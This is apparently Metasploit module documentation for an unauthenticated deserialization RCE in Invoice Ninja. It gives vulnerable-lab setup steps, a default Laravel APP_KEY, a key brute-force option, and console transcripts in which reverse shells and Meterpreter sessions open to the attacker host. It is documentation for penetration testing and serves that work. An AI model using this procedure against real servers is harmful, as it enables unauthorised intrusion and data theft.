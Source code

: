 ## Vulnerable Application
Invoice Ninja is a free invoicing software for small businesses, based on the PHP framework Laravel.
A Remote Code Execution vulnerability in Invoice Ninja (>= `5.8.22` <= `5.10.10`) allows remote unauthenticated
attackers to conduct PHP deserialization attacks via endpoint `/route/<hash>` which accepts a Laravel
ciphered value which is unsafe unserialized, if an attacker has access to the secret `APP_KEY`.
As it allows remote code execution, adversaries could exploit this flaw to execute arbitrary commands,
potentially resulting in complete system compromise, data exfiltration, or unauthorized access
to sensitive information.

The following release was tested.
* Invoice Ninja `5.10.10` on Ubuntu 22.04

## Installation steps to install Invoice Ninja on a self-hosted platform
`wget https://github.com/invoiceninja/dockerfiles/archive/refs/tags/5.8.22.zip`
`unzip 5.8.22.zip`
`cd dockerfiles-5.8.22`
Replace inside `docker-compose.yml` 
FROM
`image: invoiceninja/invoiceninja:5`
TO
`image: invoiceninja/invoiceninja:5.8.22`
Replace in `env`
`APP_KEY=base64:RR++yx2rJ9kdxbdh3+AmbHLDQu+Q76i++co9Y8ybbno=`

Then, execute `docker-compose up`
## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/linux/http/invoiceninja_uauth_rce_cve_2024_55555`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <attacker-ip>`
- [ ] `set target <0=PHP Command, 1=Unix/Linux Command>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings

## Options
### APP_KEY
This option is required if the BRUTE_FORCE option is not used.
It is the Laravel APP_KEY with a default key: `base64:RR++yx2rJ9kdxbdh3+AmbHLDQu+Q76i++co9Y8ybbno=`.

### BRUTEFORCE
This option is optional and is a text file with a list of APP_KEYs, one per line for a bruteforce attack.

## Scenarios
### Invoice Ninja 5.10.10 on Ubuntu 22.04 -  PHP Command target
Attack scenario: use the default Laravel APP_KEY preset in the option APP_KEY.
```msf
msf6 > use modules/exploits/linux/http/invoiceninja_unauth_rce_cve_2024_55555
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > set rhosts 192.168.201.6
rhosts => 192.168.201.6
msf6 exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf6 exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.6:443 can be exploited.
[+] The target appears to be vulnerable. Invoice Ninja 5.10.10
[*] Lets check if the APP_KEY(s) is/are valid by decrypting the XSRF_TOKEN inside the cookie.
[*] Grabbing the cookie with the XSRF-TOKEN.
[+] APP_KEY is valid: base64:RR++yx2rJ9kdxbdh3+AmbHLDQu+Q76i++co9Y8ybbno=
[+] Unciphered value: e60eab8287b88f834312505e582750ae6f95a84b|6IWTnJv2f3lL1nbKRbl6LwJixPeRF5grQVTFTIuB
[*] Generate an encrypted serialization payload with our cracked APP_KEY.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (40004 bytes) to 192.168.201.6
[*] Meterpreter session 1 opened (192.168.201.8:4444 -> 192.168.201.6:60120) at 2025-02-23 09:47:28 +0000

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : cuckoo
OS          : Linux cuckoo 5.15.0-131-generic #141-Ubuntu SMP Fri Jan 10 21:18:28 UTC 2025 x86_64
Meterpreter : php/linux
meterpreter > pwd
/usr/share/nginx/invoiceninja/public
meterpreter >
```
###  Invoice Ninja 5.10.10 on Ubuntu 22.04 - Unix/Linux Command target
Attack scenario: use the BRUTEFORCE option with a list of APP_KEYS in a text file.
```msf
msf6 exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > set target 1
target => 1
msf6 exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > set BRUTEFORCE /root/laravel-crypto-killer/wordlists/invoiceninja_default.txt
BRUTEFORCE => /root/laravel-crypto-killer/wordlists/invoiceninja_default.txt
msf6 exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.6:443 can be exploited.
[+] The target appears to be vulnerable. Invoice Ninja 5.10.10
[*] Lets check if the APP_KEY(s) is/are valid by decrypting the XSRF_TOKEN inside the cookie.
[*] Grabbing the cookie with the XSRF-TOKEN.
[*] Starting bruteforce decryption with APP_KEYS listed in /root/laravel-crypto-killer/wordlists/invoiceninja_default.txt.
[+] APP_KEY is valid: base64:RR++yx2rJ9kdxbdh3+AmbHLDQu+Q76i++co9Y8ybbno=
[+] Unciphered value: e60eab8287b88f834312505e582750ae6f95a84b|3epElAO1qNeckBzHOytBrNnGrvRJSyeCBsahBkSO
[*] Generate an encrypted serialization payload with our cracked APP_KEY.
[*] Executing Unix/Linux Command for cmd/unix/reverse_bash
[*] Command shell session 2 opened (192.168.201.8:4444 -> 192.168.201.6:60340) at 2025-02-23 09:49:15 +0000

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uname -a
Linux cuckoo 5.15.0-131-generic #141-Ubuntu SMP Fri Jan 10 21:18:28 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
pwd
/usr/share/nginx/invoiceninja/public
```

## Limitations
No limitations.
